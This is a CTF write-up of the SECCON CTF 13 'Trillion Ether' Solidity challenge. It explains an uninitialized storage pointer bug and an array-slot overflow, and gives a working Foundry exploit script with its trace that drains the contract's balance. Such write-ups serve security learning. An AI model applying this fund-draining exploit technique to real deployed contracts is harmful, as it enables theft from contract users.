 ```yaml
---
layout: post
title: "SECCON CTF 13 Quals Writeup"
categories: 
  - Writeup
  - blockchain
author: Songhyun Bae
---
```


I recently participated in the SECCON CTF 13 Qualifiers with my team, CyKor. I solved the “Trillion Ether” challenge in the blockchain category. I’m planning to write about it on my blog.


## **Trillion Ether**
> Get Chance!

Below is the code for the challenge. The contract allows the creation of wallets and includes `withdraw` and `transfer` functionalities. To solve the challenge, it is necessary to drain all the funds from the contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.28;

contract TrillionEther {
    struct Wallet {
        bytes32 name;
        uint256 balance;
        address owner;
    }

    Wallet[] public wallets;

    constructor() payable {
        require(msg.value == 1_000_000_000_000 ether);
    }

    function isSolved() external view returns (bool) {
        return address(this).balance == 0;
    }

    function createWallet(bytes32 name) external payable {
        wallets.push(_newWallet(name, msg.value, msg.sender));
    }

    function transfer(uint256 fromWalletId, uint256 toWalletId, uint256 amount) external {
        require(wallets[fromWalletId].owner == msg.sender, "not owner");
        wallets[fromWalletId].balance -= amount;
        wallets[toWalletId].balance += amount;
    }

    function withdraw(uint256 walletId, uint256 amount) external {
        require(wallets[walletId].owner == msg.sender, "not owner");
        wallets[walletId].balance -= amount;
        payable(wallets[walletId].owner).transfer(amount);
    }

    function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
        wallet = wallet;
        wallet.name = name;
        wallet.balance = balance;
        wallet.owner = owner;
    }
}
```

The most apparent bug exists in the _newWallet function, where an uninitialized storage variables bug occurs. The wallet variable is declared as storage but is not properly initialized before assignment. Consequently, the data is written starting from storage slot 0.

```solidity
function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
    wallet = wallet;
    wallet.name = name;
    wallet.balance = balance;
    wallet.owner = owner;
}
```

In the TrillionEther contract, storage slot 0 holds the wallets array. Being a dynamic array, this slot stores the array’s length, and the actual elements are stored starting from keccak(0).

```
$ forge inspect TrillionEther storage-layout --pretty
| Name    | Type                          | Slot | Offset | Bytes | Contract                            |
|---------|-------------------------------|------|--------|-------|-------------------------------------|
| wallets | struct TrillionEther.Wallet[] | 0    | 0      | 32    | src/TrillionEther.sol:TrillionEther |
```

The wallets array consists of the Wallet struct, which occupies three storage slots for each element:
```solidity
struct Wallet {
    bytes32 name;
    uint256 balance;
    address owner;
}

Wallet[] public wallets;
```

As a result, the storage slot for a new element in the array can be calculated using the formula: `keccak(0) + array length x 3`


By manipulating the array length in slot 0, we can cause an integer overflow during the multiplication step. This overflow allows us to overwrite the balance field of the Wallet struct with the owner address. By strategically creating wallets and controlling the overflow, we can target specific storage slots, overwrite critical data, and eventually drain all funds.

### Solution Script

Below is the exploit script that drains the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

import {TrillionEther} from "../src/TrillionEther.sol";

contract solve is Script {
    uint256 playerPrivateKey;
    address player;

    TrillionEther problemInstance;

    function setUp() external {
        string memory rpcUrl = "http://trillion-ether.seccon.games:8545/fcf85a4f-6b2f-4f81-aef5-e966d043277f";
        playerPrivateKey = 0x6d9be7bb251e23e43ac737e9ce272c97d11eb2d8164b70fd92242a076eab0d30;
        address problemContract = 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F;

        player = vm.addr(playerPrivateKey);
        vm.createSelectFork(rpcUrl);

        problemInstance = TrillionEther(problemContract);
    }

    function run() external {
        vm.startBroadcast(playerPrivateKey);

        problemInstance.createWallet{value: 0}(bytes32(uint256(1))); 
        problemInstance.createWallet{value: 0}(bytes32(uint256(38597363079105398474523661669562635951089994888546854679819194669304376546646)));
        
        problemInstance.withdraw(1, address(problemInstance).balance);

        vm.stopBroadcast();
    }
}
```

```
$ forge script solve -vvvv --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [156386] solve::run()
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return] 
    ├─ [93340] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Stop] 
    ├─ [43240] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x5555555555555555555555555555555555555555555555555555555555555556)
    │   └─ ← [Stop] 
    ├─ [8328] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::withdraw(1, 1000000000000000000000000000000 [1e30])
    │   ├─ [0] 0x6B4df773CB9AdA0515BBC8F4eB9e57C18cE54152::fallback{value: 1000000000000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

